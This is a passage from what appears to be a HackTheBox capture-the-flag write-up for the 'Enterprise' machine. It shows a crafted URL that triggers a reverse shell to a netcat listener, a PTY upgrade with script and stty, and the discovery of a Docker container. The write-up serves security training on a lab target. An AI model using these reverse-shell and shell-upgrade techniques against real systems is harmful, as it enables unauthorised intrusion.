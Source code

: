 Now visiting `enterprise.htb/?p=169&ip=10.10.14.8` triggers a reverse shell
back to my host:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.61] 43104
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@b8319d86d21e:/var/www/html$
    

The shell is running as www-data, on a hostname `b8319d86d21e`:

    
    
    www-data@b8319d86d21e:/var/www/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@b8319d86d21e:/var/www/html$ hostname
    b8319d86d21e
    

There’s no Python on this box, but I can get a PTY with `script` and then do
the same background `stty` trick:

    
    
    www-data@b8319d86d21e:/var/www/html$ script /dev/null -c bash
    script /dev/null -c bash
    www-data@b8319d86d21e:/var/www/html$ ^Z      
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
                                                                             
    www-data@b8319d86d21e:/var/www/html$
    

### Docker

There’s a `user.txt` in `/home`, but it’s just a troll:

    
    
    www-data@b8319d86d21e:/home$ cat user.txt 
    As you take a look around at your surroundings you realise there is something wrong.
    This is not the Enterprise!
    As you try to interact with a console it dawns on you.
    Your in the Holodeck!
    

There’s a `.dockerenv` file in `/`:

    
    
    www-data@b8319d86d21e:/$ ls -a
    .   .dockerenv  boot  etc   lib    media  opt   root  sbin  sys  usr
    ..  bin         dev   home  lib64  mnt    proc  run   srv   tmp  var
    